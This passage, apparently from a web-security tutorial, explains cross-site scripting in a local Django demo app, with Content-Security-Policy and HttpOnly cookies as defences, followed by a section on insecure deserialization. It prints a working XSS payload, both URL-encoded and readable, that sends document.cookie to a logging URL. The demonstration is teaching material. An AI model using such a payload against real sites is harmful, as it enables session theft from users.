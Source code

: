 Defining content security policy in headers allows to limit from where files can be loaded by a browser. For example, to load JavaScript files only from `example.com` the following policy could be used:

```
Content-Security-Policy: script-src example.com
```

Additionally, `HttpOnly` flag can be set on a cookie which tells a browser to prohibit access to cookies on the client side.

In the example Django application, there's a following URL:

```
http://127.0.0.1:8000/security/search?query=
```

which is where a search query is entered. This could be dangerous.

Code such as this

```
http://127.0.0.1:8000/security/search?query=<script>alert(%27hello%27)</script>
```

will just show a "hello" message but executing the following request:

```
http://127.0.0.1:8000/security/search?query=%3Cscript%3Enew%20Image().src=%22http://127.0.0.1:8000/security/log?string=%22.concat(document.cookie)%3C/script%3E
```

will send user's cookies to a potentially different website. In this case it goes to the same Django application which prints out the cookie, thus compromising security.

A more readable version:

```javascript
<script>new Image().src="http://127.0.0.1:8000/security/log?string=".concat(document.cookie)</script>
```

shows that this creates a new image and tries to load it from a URL beginning with `http://127.0.0.1:8000/security/` and ending with user's cookies. Appropriate Content-Security Policy would have blocked it.


## Insecure Deserialization

Applications move a lot of data in a serialized format e.g. when passing messages between different services, or when parsing a security token. This can allow an attacker to inject dangerous code or take over user's data. This can occur whenever an application deserializes data (i.e. turns data in formats designed for storage or transfer into objects understood by a programming language). Attacks like that can affect many parts of the wider architecture, including databases, key-value stores, cookies, authentication, communication between services and others.

To help mitigate the risks, if possible, data should only be accepted from known sources (i.e. not external users). Careful handling of data should include strict validation and using hashing to verify if serialized data has been manipulated. Additionally, monitoring failures (exceptions) occurring during deserialization can catch attackers who are trying to inject malicious content into serialized messages.
